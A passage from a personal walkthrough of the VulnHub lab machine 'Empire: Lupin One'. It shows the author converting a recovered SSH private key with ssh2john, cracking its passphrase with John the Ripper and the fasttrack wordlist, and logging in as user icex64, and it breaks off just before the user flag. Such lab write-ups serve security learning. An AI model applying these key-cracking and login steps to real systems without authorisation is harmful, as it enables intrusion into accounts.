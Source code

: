 Then I change the file to add a newline in the end, because that's how ssh keys are normally, and then:

```
┌──(j㉿kali)-[~/Desktop/vulnhub/empire-lupin-one]
└─$ chmod 400 secret
```

When I try to log in to the machine with that key and user 'icex64' as written in the /~secret/, this happens (as it should, like the /~secret/ directory's index's reads):

```
┌──(j㉿kali)-[~/Desktop/vulnhub/empire-lupin-one]
└─$ ssh -i secret icex64@192.168.56.120
Enter passphrase for key 'secret': 
```

The password must be cracked, even the wordlist is given in the /~secret/ directory: 'fasttrack'. Firstly I create a hash to be cracked in john:

```
┌──(j㉿kali)-[~/Desktop/vulnhub/empire-lupin-one]
└─$ ssh2john secret > secret_hash
```

And then crack it:

```
┌──(j㉿kali)-[~/Desktop/vulnhub/empire-lupin-one]
└─$ john secret_hash  --wordlist=/usr/share/wordlists/fasttrack.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
P@55w0rd!        (secret)     
1g 0:00:00:01 DONE (2022-11-03 23:12) 0.5747g/s 36.78p/s 36.78c/s 36.78C/s Spring2017..password2
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Then I proceed to log into the machine with password 'P@55w0rd!':

```
┌──(j㉿kali)-[~/Desktop/vulnhub/empire-lupin-one]
└─$ ssh -i secret icex64@192.168.56.120                            
Enter passphrase for key 'secret': 
Linux LupinOne 5.10.0-8-amd64 #1 SMP Debian 5.10.46-5 (2021-09-23) x86_64
########################################
Welcome to Empire: Lupin One
########################################
Last login: Thu Nov  3 17:41:29 2022 from 192.168.56.1
icex64@LupinOne:~$ 
```

I get the user flag:
